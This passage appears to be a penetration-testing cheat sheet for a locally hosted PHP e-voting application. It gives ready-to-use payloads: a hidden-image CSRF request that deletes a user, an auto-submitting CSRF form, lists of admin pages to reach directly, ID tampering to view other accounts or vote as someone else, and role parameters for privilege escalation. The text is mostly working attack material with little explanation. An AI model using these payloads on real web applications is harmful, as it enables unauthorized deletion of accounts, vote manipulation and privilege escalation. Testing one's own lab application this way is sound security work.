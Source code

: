 ### User Deletion CSRF
```html
<!DOCTYPE html>
<html>
<body>
<img src="http://localhost:8181/evoting/DeleteUser.php?CitizenNum=111111111&vID=50001&vName=victim&submit=1" style="display:none">
</body>
</html>
```

### Auto-submit CSRF
```html
<form action="http://target.com/action" method="POST" id="csrf">
    <input type="hidden" name="param" value="malicious">
</form>
<script>
window.onload = function() {
    document.getElementById('csrf').submit();
}
</script>
```

---

## 🔓 Access Control Bypasses

### Direct URL Access
```
Try accessing admin pages directly:
http://localhost:8181/evoting/AdminCode.php
http://localhost:8181/evoting/AdminCodeStuff.php
http://localhost:8181/evoting/DeleteUser.php
http://localhost:8181/evoting/AddNewCandidate.php
http://localhost:8181/evoting/Analytics.php
```

### Parameter Tampering
```
Change user IDs in URLs:
accountinfo.php?CitizenNum=111111111
(Change to another user's ID)

Change voter IDs in forms:
VoterId=50001
(Change to vote as someone else)
```

### Privilege Escalation
```
Look for role parameters:
?role=admin
?isAdmin=1
?privilege=administrator
```

---